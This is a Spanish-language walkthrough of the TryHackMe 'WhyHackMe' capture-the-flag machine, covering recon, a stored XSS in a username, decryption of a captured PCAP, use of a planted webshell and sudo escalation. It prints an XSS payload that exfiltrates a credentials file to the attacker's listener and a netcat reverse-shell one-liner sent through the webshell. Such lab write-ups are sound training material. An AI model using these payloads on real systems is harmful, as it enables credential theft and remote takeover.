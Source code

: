 # WhyHackMe

**Platform:** TryHackMe  
**Difficulty:** Medium  
**IP:** 10.10.90.191

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador del sistema Linux.
- **Herramientas iniciales:** `Nmap`, `FTP`, `Gobuster`, `XSS`, `Netcat`, `SSH`, `Iptables`,`Wireshark`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap -sC -sV -p- 10.10.90.191
```
![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Lo siguiente es acceder a ftp de forma anónima, ya que lo tenemos ejecutándose en el puerto 21 y éste acepta el usuario anonymous.

Dentro encontramos un fichero con una pista que usaremos el el sitio web.

![Análisis del servicio FTP entrando de forma anónima](screenshots/2.ftp_note.png)

Si añadimos el host al fichero /etc/hosts y entramos al sitio web, podemos ver que es un "blog" moy básico.

Indica que leas su primer artículo y luego puedes poner un comentario iniciando sesión pero no nos han dado ningunas credenciales por el momento, así que realizaremos un descubrimiento de directorios y ficheros con `gobuster`.

![Visión general del sitio web](screenshots/3.website.png)

```bash
gobuster dir -u http://whyhackme.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,pdf,html,php
```

![Ejecución de gobuster para la búsqueda de ficheros y directorios](screenshots/4.gobuster.png)

Ahora que sabemos qué rutas contiene el sitio web, vamos a ir a la página de registro y vamos a crearnos una cuenta de prueba.

![Registro del sitio web](screenshots/5.registration.png)

En el cuadro donde se pueden escribir los comentarios, intentamos inyectar código para un ataque XSS pero no conseguimos nada porque la página traduce los símbolos.

![Intento de XSS en comentarios del sitio web](screenshots/6.comments.png)

En el resto del blog tan solo apreciamos dos campos, por lo que si en el comentario no podemos inyectar código, probams a escribir exactamente lo mismo pero en el nombre de la cuenta al crearla.

![Intento de XSS en nombre de usuario al crear la cuenta](screenshots/7.tryng_new_account.png)

Escribimos un artículo y quedaría publicado con el script en el nombre, de esta manera hemos conseguido que el código se ejecute cada vez que alguien entra a ver los comentarios.

Ya solo queda buscar un script que obtenga el fichero que nos ha indicado antes la pista encontrada en FTP, convertirla a texto y luego enviarla por POST a un servidor Netcat que pongamos a la escucha.

```bash
<script>fetch("http://127.0.0.1/dir/pass.txt").then(x => x.text()).then(y => fetch("http://10.8.29.132:1234", {method: "POST", body:y}));</script>
```

![Inyección de código en nombre de cuenta de usuario](screenshots/8.payload.png)

Al entrar con una cuenta para ver los comentarios, el script se ejecuta y en el servidor recibimos el contenido del fichero.

Este contiene unas credenciales que podemos usar para acceder por SSH.

![Servidor Netcat con contenido sobre el fichero de credenciales](screenshots/9.netcat.png)

Obtenemos acceso al sistema con el usuario jack y en su mismo directorio personal nos encontramos la primera bandera.

![Accediendo por ssh con usuario jack y obteniendo la primera bandera](screenshots/10.ssh_user.txt.png)

Es hora de escalar privilegios, y como siempre hago antes de utilizar herramientas como linpeas es realizar un par de comandos básicos como `sudo -l` o algún find para buscar ficheros con permisos SUID.

Esta vez con el primero bastó, y nos encontramos con que el usuario jack puede ejecutar con permisos de sudo el fichero `iptables`.

```bash
sudo -l
```

![Ejecución del comando sudo -l para buscar permisos](screenshots/11.sudo-l.png)

Como no puede ser de otra manera, probamos a realizar el comando iptables y nos encontramos con que un puerto está denegando la conexión TCP por algún motivo.

```bash
sudo iptables -L
```

![Comando iptables -L para ver la tabla de rutas](screenshots/14.iptables.png)

Por el momento dejamos un poco de lado lo anterior y seguimos buscando. No pasa mucho hasta que accedemos al directorio /opt y hayamos un fichero .pcap y un fichero con pistas que seguramente utilizaremos pronto.

![Contenido del directorio /opt con un fichero de pista y otro PCAP](screenshots/13.opt.png)

Tenemos un problema, y es que cuando descargamos el fichero PCAP en la máquina local y  lo tratamos de abrir con Wireshark, este no es legible.

Esto es debido a que está encriptado con un certificado SSL, y necesitamos ese certificado para poder ver su contenido.

Buscando información, me topé con una web que indicaba que la ubicación del certificado SSL podría estar en el archivo de configuración de Apache.

Descargar fichero PCAP en la máquina local:
```bash
scp jack@whyhackme.thm:/opt/capture.pcap .
```

Abrir fichero de configuración de apache:
```bash
cat /etc/apache2/sites-available/000-default.conf
```
![Fichero de configuración de apache para encontrar la ](screenshots/15.etc-apache2-sites-available-000-default.conf.png)

El fichero nos indica que el certificado está en `/etc/apache2/certs/apache.key`, de manera que lo descargaremos por scp y lo importaremos a Wireshark.

`Edit > Preferences > Protocols > TLS > RSA key list > Edit`

![Importación de certificado SSL a Wireshark](screenshots/16.key_wireshark.png)

Ahora desde Wireshark podemos tratar de filtrar por el puerto que la máquina denegaba y por TCP.

`tcp.port == 41312 && http`

El resultado es un conjunto de peticiones, entre las que se repite una GET a lo que se intuye que es una Webshell. Habiendo importado el certificado en Wireshark, podremos utilizar nuestro navegador para acceder.

Tan solo tenemos que modificar Iptables para que acepte las peticiones TCP.

![Wireshark mostrando las peticiones GET a una webshell en la máquina víctima](screenshots/17.backdoor_shell.png)

```bash
sudo iptables -D INPUT -p tcp --dport 41312 -j DROP

sudo iptables -A INPUT -p tcp --dport 41312 -j ACCEPT
```

![Resultado de iptables tras la modificación para aceptar tráfico por el puerto indicado](screenshots/18.iptables2.png)

Ya sí que podemos probar el acceso a la Webshell ya que el servidor nos permite el tráfico TCP al puerto donde se conecta. 

```bash
https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id`
```

Si copiamos el código de los atacantes, están pasándole `id` como parámetro a la Webshell.

![Acceso a la Webshell encontrada a través del navegador](screenshots/19.webshell.png)

Ahora vamos a buscar una reverse shell que nos lance una conexión a nuestro Netcat. Ya que las básicas no funcionan, tratamos de complicarlo un poco más:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.29.132 8888 >/tmp/f
```

Aún así, nada. Otra opción es utilizar la página URLencoder (https://www.urlencoder.org) para tratar de ofuscar un poco los símbolos y órdenes.

```bash
https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20ATTACKING_IP%209001%20%3E%2Ftmp%2Ff
```

![Página URLencoder ofuscando el código de la reverse-shell](screenshots/20.urlencode.png)

Ponemos a escuchar nuestro Netcat en el mismo puerto y listo. Obtenemos una Shell del usuario www-data. La sorpresa es cuando al ejecutar `sudo -l` la respuesta es la siguiente: (ALL : ALL) NOPASSWD: ALL.

![Conexión de Netcat con usuario www-data por funcionamiento de reverse-shell](screenshots/21.netcat.png)

Teniendo en cuenta sus permisos, con un simple `sudo su` accedemos a la cuenta de administrador y con ella a la segunda bandera.

![Escala de privilegios sencilla y obtención de la segunda bandera](screenshots/22.root.txt.png)













































